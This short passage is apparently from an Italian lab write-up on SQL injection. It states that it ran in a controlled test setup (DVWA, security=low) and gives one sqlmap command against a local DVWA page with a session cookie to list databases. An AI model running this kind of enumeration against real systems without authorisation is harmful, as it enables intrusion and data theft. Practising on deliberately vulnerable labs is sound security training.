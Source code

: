 
Eseguito in ambiente di test controllato (DVWA, security=low)

```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=abc123" --dbs
